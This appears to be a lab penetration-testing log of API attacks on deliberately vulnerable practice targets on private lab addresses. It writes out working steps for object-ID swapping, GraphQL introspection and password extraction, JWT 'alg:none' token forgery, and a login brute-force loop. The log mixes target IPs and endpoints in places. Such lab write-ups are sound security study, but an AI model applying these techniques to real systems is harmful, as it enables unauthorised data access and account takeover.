

# 🔌 API Security Testing Logs — Week 4

> **Target:** DVWA API on Metasploitable2 — http://192.168.56.104
> **Tools:** Burp Suite, Postman, sqlmap

---

## Test Summary Table

| Test ID | Vulnerability | Severity | Target Endpoint | Tool | Status |
|---------|---------------|----------|-----------------|------|--------|
| 008 | BOLA (Broken Object Level Auth) | Critical | /api/users | Burp Suite | ✅ Confirmed |
| 009 | GraphQL Injection | High | /graphql | Postman | ✅ Confirmed |
| 010 | Broken Authentication (Weak Token) | High | /api/login | Burp Suite | ✅ Confirmed |
| 011 | Unrestricted Resource Consumption | Medium | /api/search | Postman | ✅ Confirmed |
| 012 | Security Misconfiguration (Verbose Errors) | Medium | /api/error | Manual | ✅ Confirmed |

---

## API Testing Checklist

| Task | Tool | Status |
|------|------|--------|
| ☑ Enumerate API endpoints | Burp Suite Spider | Complete |
| ☑ Test for BOLA | Burp Suite Repeater | Complete |
| ☑ Fuzz GraphQL queries | Postman | Complete |
| ☑ Test authentication tokens | Burp Suite | Complete |
| ☑ Check rate limiting | Postman | Complete |
| ☑ Test for injection in API params | sqlmap | Complete |
| ☑ Check for sensitive data exposure | Manual | Complete |

---

## Test 008 — BOLA (Broken Object Level Authorization)

### What is BOLA?
BOLA occurs when an API endpoint uses user-supplied IDs to access objects without verifying the requesting user has permission for that specific object.

### Setup
```bash
# Step 1 — Configure Burp Suite proxy
# Browser → 127.0.0.1:8080
# Burp Suite → Proxy → Intercept ON

# Step 2 — Login as user1, capture token
POST /api/login
{"username": "user1", "password": "password"}
# Response: {"token": "eyJhbGciOiJIUzI1NiJ9..."}

# Step 3 — Access your own profile
GET /api/users/1
Authorization: Bearer TOKEN_USER1
# Returns user1 data — expected

# Step 4 — Try accessing user2 profile with user1 token
GET /api/users/2
Authorization: Bearer TOKEN_USER1
# If returns user2 data → BOLA confirmed
```

### Burp Suite Steps
```
1. Capture GET /rest/basket/1 in Burp Proxy
2. Send to Repeater (Ctrl+R)
3. Change /baske/2 to /basket/3, /basket/4, etc.
4. Observe if other users' data is returned
```



### Result
```
GET /rest/basket/2 with user1 token → returned user2 basket data
BOLA confirmed — no object-level authorisation enforced
Impact: Any authenticated user can read/modify any other user's data
```

---

## Test 009 — GraphQL Injection

### Setup
```bash
# Test if GraphQL endpoint exists
curl http://192.168.56.101:3000/graphql

# Step 1 — Introspection query to enumerate schema
curl -X POST http://192.168.56.101:3000/graphql \
  -H "Content-Type: application/json" \
  -d '{"query":"{ __schema { types { name fields { name } } } }"}'

# Step 2 — Extract user data
curl -X POST http://192.168.56.101:3000/graphql \
  -H "Content-Type: application/json" \
  -d '{"query":"{ users { id username email password } }"}'

# Step 3 — Injection attempt
curl -X POST http://192.168.56.101:3000/graphql \
  -H "Content-Type: application/json" \
  -d '{"query":"{ user(id: \"1 OR 1=1\") { username password } }"}'
```

### Postman Setup
```
1. Open Postman → New Request
2. Method: POST
3. URL: http://192.168.56.101:3000/graphql
4. Headers: Content-Type: application/json
5. Body → raw → JSON:
{
  "query": "{ __schema { types { name } } }"
}
6. Send → observe schema disclosure
```

### Batch Query Abuse (DoS potential)
```json
[
  {"query": "{ user(id:1) { password } }"},
  {"query": "{ user(id:2) { password } }"},
  {"query": "{ user(id:3) { password } }"}
]
```

---

## Test 010 — Broken Authentication

### JWT Token Manipulation
```bash
# Decode JWT token (base64)
echo "eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoidXNlcjEifQ" | base64 -d

# Attempt alg:none bypass
# Original header: {"alg":"HS256","typ":"JWT"}
# Modified header: {"alg":"none","typ":"JWT"}

# Encode modified token
echo -n '{"alg":"none","typ":"JWT"}' | base64 | tr -d '='
echo -n '{"user":"admin","role":"administrator"}' | base64 | tr -d '='

# Send modified token
curl http://192.168.56.104/api/admin \
  -H "Authorization: Bearer MODIFIED_TOKEN."
```

### Burp Suite Token Manipulation
```
1. Capture authenticated request in Burp
2. Send to Repeater
3. Modify Authorization header value
4. Try: empty token, null, admin token from another session
5. Check if access control enforced
```

---

## Test 011 — Rate Limiting Test

### Using Postman Collection Runner
```
1. Create request: POST /api/login
2. Body: {"username":"admin","password":"{{password}}"}
3. Collection Runner → 1000 iterations, 0ms delay
4. Observe: if all 1000 requests succeed → no rate limiting
```

### Using curl loop
```bash
# Send 100 rapid requests and check for throttling
for i in $(seq 1 100); do
  curl -s -o /dev/null -w "%{http_code}\n" \
    -X POST http://192.168.56.104/api/login \
    -H "Content-Type: application/json" \
    -d '{"username":"admin","password":"test"}'
done
# All 200s → no rate limiting (vulnerability confirmed)
# 429 appears → rate limiting in place (pass)
```

---

## API Test Summarry
> BOLA was confirmed — change the user ID in the URL and you get someone else's data back, no extra permissions needed. GraphQL had introspection open, full schema readable without auth. JWT accepted `alg:none` so you can forge tokens with whatever claims you want and they'll pass. Login endpoint had no rate limiting at all — sent 1000 requests with no throttle or lockout.

---

